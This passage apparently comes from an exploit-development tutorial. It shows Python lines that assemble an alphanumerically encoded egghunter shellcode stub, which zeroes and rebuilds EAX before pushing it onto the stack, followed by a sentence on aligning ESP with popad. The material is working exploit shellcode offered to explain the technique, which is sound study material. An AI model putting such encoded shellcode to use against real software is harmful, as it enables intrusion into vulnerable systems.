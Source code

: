 ```py
egghunter += "\x2d\x55\x47\x66\x44"
egghunter += "\x50"                     #push eax
#---------------------------
egghunter += "\x25\x4A\x4D\x4E\x55"     #zero eax
egghunter += "\x25\x35\x32\x31\x2A"     #
egghunter += "\x2d\x50\x3e\x39\x31"     #x0F x42 x52 x6A
egghunter += "\x2d\x50\x3e\x39\x32"
egghunter += "\x2d\x51\x41\x3b\x32"
egghunter += "\x50"                     #push eax
#----------------------------
egghunter += "\x25\x4A\x4D\x4E\x55"     #zero eax
egghunter += "\x25\x35\x32\x31\x2A"     #
egghunter += "\x2d\x33\x35\x70\x55"     #x66 x81 xCA xFF
egghunter += "\x2d\x33\x25\x70\x55"
egghunter += "\x2d\x34\x24\x55\x55"
egghunter += "\x50"                     #push eax
#------------------------------
egghunter += "\x41\x41\x41\x41"         #some nops
```

The code begins with eight <b>popad</b> instructions that align ESP to point to a memory address that is higher than the end of the encoded stub itself. 
